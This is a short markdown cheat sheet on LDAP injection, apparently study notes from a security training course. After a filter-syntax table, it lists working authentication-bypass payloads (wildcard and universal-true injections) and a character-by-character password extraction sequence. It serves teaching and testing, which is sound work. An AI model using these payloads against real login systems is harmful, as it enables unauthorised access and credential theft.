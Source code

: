 ## LDAP Injection

#### LDAP Search Filter Syntax

|Name|Operand|Example|Example Description|
|---|---|---|---|
|Equality|`=`|`(name=Kaylie)`|Matches all entries that contain a `name` attribute with the value `Kaylie`|
|Greater-Or-Equal|`>=`|`(uid>=10)`|Matches all entries that contain a `uid` attribute with a value greater-or-equal to `10`|
|Less-Or-Equal|`<=`|`(uid<=10)`|Matches all entries that contain a `uid` attribute with a value less-or-equal to `10`|
|Approximate Match|`~=`|`(name~=Kaylie)`|Matches all entries that contain a `name` attribute with approximately the value `Kaylie`|
|And|`(&()())`|`(&(name=Kaylie)(title=Manager))`|Matches all entries that contain a `name` attribute with the value `Kaylie` and a `title` attribute with the value `Manager`|
|Or|`(\|()())`|`(\|(name=Kaylie)(title=Manager))`|Matches all entries that contain a `name` attribute with the value `Kaylie` or a `title` attribute with the value `Manager`|
|Not|`(!())`|`(!(name=Kaylie))`|Matches all entries that contain a `name` attribute with a value different from `Kaylie`|
|True|`(&)`|`(&)`|Universal True|
|False|`(\|)`|`(\|)`|Universal False|
|Wildcard|`*`|`(name=*a*)`|Matches all entries that contain a name attribute that contains an `a`|

#### Authentication Bypass

|Description|Username|Password|Search Filter|
|---|---|---|---|
|Regular Authentication|`admin`|`admin`|`(&(uid=admin)(userPassword=admin))`|
|Wildcard Bypass|`*`|`*`|`(&(uid=*)(userPassword=*))`|
|Wildcard Bypass targeting specific user|`admin*`|`*`|`(&(uid=admin*)(userPassword=*))`|
|Universal True Bypass|`admin)(\|(&`|`invalid)`|`(&(uid=admin)(\|(&)(userPassword=invalid)))`|

#### Data Exfiltration

Brute-Force data character-by-character:

| Username    | Password    | Query                                        |
| ----------- | ----------- | -------------------------------------------- |
| `htb-stdnt` | `*`         | `(&(uid=htb-stdnt)(userPassword=*))`         |
| `htb-stdnt` | `p*`        | `(&(uid=htb-stdnt)(userPassword=p*))`        |
| `htb-stdnt` | `p@*`       | `(&(uid=htb-stdnt)(userPassword=p@*))`       |
| `htb-stdnt` | `p@s*`      | `(&(uid=htb-stdnt)(userPassword=p@s*))`      |
| `htb-stdnt` | `p@ss*`     | `(&(uid=htb-stdnt)(userPassword=p@ss*))`     |
| `htb-stdnt` | `p@ssw*`    | `(&(uid=htb-stdnt)(userPassword=p@ssw*))`    |
| `htb-stdnt` | `p@ssw0*`   | `(&(uid=htb-stdnt)(userPassword=p@ssw0*))`   |
| `htb-stdnt` | `p@ssw0r*`  | `(&(uid=htb-stdnt)(userPassword=p@ssw0r*))`  |
| `htb-stdnt` | `p@ssw0rd*` | `(&(uid=htb-stdnt)(userPassword=p@ssw0rd*))` |
| `htb-stdnt` | `p@ssw0rd`  | `(&(uid=htb-stdnt)(userPassword=p@ssw0rd))`  |

